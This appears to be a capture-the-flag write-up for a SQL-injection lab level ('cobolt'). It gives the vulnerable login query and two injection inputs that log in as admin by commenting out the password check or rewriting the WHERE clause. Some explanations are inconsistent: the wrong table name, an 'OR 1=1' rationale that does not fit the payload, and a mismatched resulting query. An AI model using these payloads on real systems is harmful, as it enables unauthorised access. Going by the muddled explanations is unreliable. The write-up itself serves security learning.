 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 2
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a20d5977-f907-4582-8e92-88ff3b574002)

We are provided with the SQL query:

```sql
SELECT id FROM prob_cobolt WHERE id='{$_GET[id]}' AND pw=md5('{$_GET[pw]}')`
```

This time the application requires us to query for the id `admin`.

### Method 1
In order to make the result of this query `True`, we can provide the following URI:

```
?id=admin' -- -
```

The resultant query then becomes:

```sql
SELECT id FROM prob_gremlin WHERE id='admin' -- -' AND pw=md5('')

## Queried part
SELECT id FROM prob_gremlin WHERE id='admin'

## Commented part
AND pw=md5('')
```

Since 1=1 is always true, the result of the `OR` operation will always be `True`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/0e1140d5-c226-41e0-9aee-b022a2b9a28f)


### Method 2
We can also make teh statement true using the following input:

```sql
?pw=') OR (id='admin
```

The resultant query will be:

```sql
SELECT id FROM prob_gremlin WHERE id='admin' -- -' AND pw=md5('') OR (id='admin')
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/5c5d2723-8a7e-4ac1-81c4-67d5084b7506)

